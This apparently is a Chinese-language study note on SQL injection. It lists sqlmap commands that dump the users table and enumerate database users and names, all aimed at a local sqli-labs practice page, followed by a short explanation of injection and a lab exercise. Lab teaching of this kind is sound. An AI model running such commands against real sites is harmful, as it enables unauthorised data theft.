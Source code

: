 ```bash
sqlmap.py -u "http://127.0.0.1/sql/Less-1/?id=1" -D security -T users --columns

# select * from security.users; 
sqlmap.py -u “http://127.0.0.1/sql/Less-1/?id=1” -D security -T users  --dump

# 获取数据库的所有用户
sqlmap.py -u "http://127.0.0.1/sql/Less-1/?id=1" -users

# 获取当前网站数据库的名称
sqlmap.py -u “http://127.0.0.1/sql/Less-1/?id=1” --current-db

# 获取当前网站数据库的用户名称
sqlmap.py -u “http://127.0.0.1/sql/Less-1/?id=1” --current-user

```


## 实操

### SQL注入
> [ppt](https://docs.google.com/presentation/d/1BoP8zCuAYZvGmVxFBFtKwGdJB29VHF9RfnkThf-WDoM/edit?usp=sharing)

SQL注入即是指web应用程序对用户输入数据的合法性没有判断或过滤不严，攻击者可以在web应用程序中事先定义好的查询语句的结尾上添加额外的SQL语句，在管理员不知情的情况下实现非法操作，以此来实现欺骗数据库服务器执行非授权的任意查询，从而进一步得到相应的数据信息。

SQL注入漏洞的产生需要满足以下两个条件：
1、参数用户可控：前端传给后端的参数内容是用户可以控制的。
2、参数带入数据库查询：传入的参数拼接到SQL语句，且带入数据库查询

#### 考点
虚拟机下完成union boolean 报错注入
![image.png](/upload/2021/12/image-81e503bcb28b41128b1162536612347e.png)